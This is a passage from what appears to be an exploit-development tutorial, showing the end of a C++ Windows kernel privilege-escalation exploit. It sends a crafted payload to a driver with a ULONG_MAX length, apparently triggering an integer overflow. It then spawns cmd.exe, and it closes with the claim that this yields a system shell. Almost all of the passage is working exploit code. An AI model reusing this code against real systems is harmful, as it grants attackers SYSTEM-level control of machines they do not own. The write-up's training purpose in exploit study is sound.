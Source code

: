 ```cpp
        &input_buff,
        ULONG_MAX,
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {
        cout << "[!] Payload failed.\n";
    }
}

void spawn_shell()
{
    PROCESS_INFORMATION Process_Info;
    ZeroMemory(&Process_Info, 
        sizeof(Process_Info));
    
    STARTUPINFOA Startup_Info;
    ZeroMemory(&Startup_Info, 
        sizeof(Startup_Info));
    
    Startup_Info.cb = sizeof(Startup_Info);

    CreateProcessA("C:\\Windows\\System32\\cmd.exe",
        NULL, 
        NULL, 
        NULL, 
        0, 
        CREATE_NEW_CONSOLE, 
        NULL, 
        NULL, 
        &Startup_Info, 
        &Process_Info);
}

int main()
{
    HANDLE hFile = get_handle();

    send_payload(hFile);

    spawn_shell();
}
```

## Conclusion
This should net you a system shell. 

![](/assets/images/AWE/intover6.PNG)
